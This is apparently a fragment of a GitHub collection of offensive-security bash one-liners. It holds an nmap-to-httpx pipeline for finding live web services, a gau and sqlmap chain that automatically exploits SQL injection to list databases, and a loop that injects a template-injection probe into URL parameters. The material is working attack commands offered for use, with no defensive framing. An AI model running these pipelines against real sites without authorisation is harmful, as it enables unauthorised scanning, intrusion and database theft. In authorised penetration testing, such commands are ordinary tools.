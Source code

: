 ```bash
nmap -v0 HOST -oX /dev/stdout | jc --xml -p | jq -r '.nmaprun.host | (.address["@addr"] + ":" + .ports.port[]["@portid"])' | httpx --silent
```

### Filtering URLs and Exploiting SQL Injection
> @tholkappiar
```bash
cat url.txt | gau | egrep -v '(.js|.png|.svg|.gif|.jpg|.txt)'|tee sqli.txt && sqlmap -m sqli.txt -dbs --batch
```

### Automated SSTI (Server-Side Template Injection) Vulnerability Scanner
> @tholkappiar
```bash
cat url.txt | gau -subs | grep '=' | egrep -v '(\.js|\.png|\.svg|\.gif|\.jpg|\.jpeg|\.txt|\.css|\.ico)' | qsreplace "ssti{{7*7}}" | while read url; do cur=$(curl -s $url | grep "ssti49"); echo -e "$url -> $cur"; done
```
